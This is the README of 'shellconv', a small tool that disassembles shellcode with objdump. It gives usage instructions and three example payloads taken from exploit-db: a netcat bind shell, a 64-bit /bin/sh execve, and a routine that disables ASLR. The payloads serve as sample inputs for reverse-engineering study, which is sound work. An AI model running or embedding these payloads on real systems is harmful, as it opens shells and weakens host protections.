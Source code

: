 # shellconv
Small tool for disassembling shellcode (using objdump)<br/>
<pre>
Use: ./shellconv.py [inFile] [arch:optional] [outFile:optional]
arch: defined as in objdump -m, default: i386
</pre>
<hr/>
<b>DISCLAIMER</b><br/>
This tool is intended to be minimalistic.<br/>
It may not give proper results in case of complicated/obfuscated shellcode. In such cases, please refer to tools of appropriate complexity.<br/>

examples:
-

1) https://www.exploit-db.com/exploits/36921/

expdb1.shc :
<pre>
"\x31\xc0\x31\xd2\x50\x68\x37\x37\x37\x31\x68\x2d\x76\x70\x31\x89\xe6\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x68\x2d\x6c\x65\x2f\x89\xe7\x50\x68\x2f\x2f\x6e\x63\x68\x2f\x62\x69\x6e\x89\xe3\x52\x56\x57\x53\x89\xe1\xb0\x0b\xcd\x80";
</pre>

![](img/expdb1-32b.png)

<br/><br/>

2) https://www.exploit-db.com/exploits/36858/
expdb1_64.shc :
<pre>
  char *shellcode =3D "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56=
\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05";
</pre>

<br/><br/>

3) https://www.exploit-db.com/exploits/36637/
expdb3.shc :
<pre>
char shellcode[] = "\xeb\x22\x5b\x31\xc0\x88\x43\x23\x6a\x05\x58"
"\x6a\x02\x59\xcd\x80\x89\xc3\x6a\x04\x58\xeb\x36\x59\x6a\x02\x5a
\xcd\x80\x6a\x01\x58\x31\xdb\xcd\x80\xe8\xd9\xff\xff\xff\x2f\x70
\x72\x6f\x63\x2f\x73\x79\x73\x2f\x6b\x65\x72\x6e\x65\x6c\x2f\x72
\x61\x6e\x64\x6f\x6d\x69\x7a\x65\x5f\x76\x61\x5f\x73\x70\x61\x63
\x65\x58\xe8\xc5\xff\xff\xff\x30\x0a";
</pre>

